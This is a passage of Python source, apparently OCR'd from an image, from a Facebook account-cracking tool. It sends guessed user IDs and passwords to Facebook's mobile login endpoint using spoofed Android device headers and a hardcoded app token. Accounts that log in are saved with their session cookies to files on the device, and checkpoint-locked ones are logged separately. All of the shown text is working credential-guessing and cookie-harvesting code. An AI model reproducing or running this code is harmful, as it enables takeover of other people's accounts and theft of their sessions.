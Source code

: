 "device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": uid,
"password": pw,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': iAmAndroidUa(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62'}
                q = ses.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()

                if "session_key" in q:
                    coki = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);sb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                    cookie = f"sb={sb};{coki}"
                    p('\r\033[1;92m[LEGEND-USMII-OK] %s | %s \033[1;97m '%(uid,pw))
                    ok.append(uid)
                    open('/sdcard/USMII_M1_OK.txt','a').write(uid+'|'+pw+'\n')
                    open('/sdcard/USMII_M1_COOKIES.txt','a').write(uid+'|'+pw+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    p('\r\033[1;91m[ALONE-USMII-CP] %s | %s \033[1;97m '%(uid,pw))
                    cp.append(uid)
                    open('/sdcard/ALONE_M1_CP.txt','a').write(uid+'|'+pw+'\n')
                    break
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
                self.method1(uid,nm,pwx)
